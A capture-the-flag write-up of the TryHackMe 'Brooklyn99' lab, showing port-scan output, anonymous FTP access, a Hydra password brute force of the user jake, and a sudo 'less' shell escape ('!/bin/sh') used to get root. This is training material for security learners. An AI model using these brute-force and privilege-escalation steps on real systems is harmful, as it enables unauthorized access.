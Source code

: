 * * *
 ### Lab: Brooklyn99
 ### Platform: TryHackMe
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/783caa35-2e5c-40a0-9315-5ed21cc68f68)

### Enumeration
- Rustscan's scan details

      ❯ rustscan -a 10.10.237.215 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.237.215:21
      Open 10.10.237.215:22
      Open 10.10.237.215:80`
      PORT   STATE SERVICE REASON  VERSION
      21/tcp open  ftp     syn-ack vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:10.8.158.229
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
      |   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
      |   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
      80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: POST OPTIONS HEAD GET
      |_http-title: Site doesn't have a title (text/html).
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kerne
- The scan result reveals that the ftp service allows anonymous login.The directory contains a txt file stating that the `user: jake` has a weak password
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3907bb6-d7e0-4fcd-9c5a-3b3d01bbde3a)

- I bruteforced jake's password with Hydra

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4ff07d4-0007-4313-9ed6-125e90d6de05)

- Ssh access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8f50a8e4-8f82-4ac3-a493-87969336ba15)

### Privesc

- We can run the binary `/usr/bin/less` as root without password.We can use this binary to escalate privileges to root

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3950a583-58a1-4d5d-a260-cecf43e35751)

- I got this payload from gtfobins

      sudo less /etc/profile
      !/bin/sh

- Root access

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63b0630e-8718-43a0-a46e-5fa865d2002f)
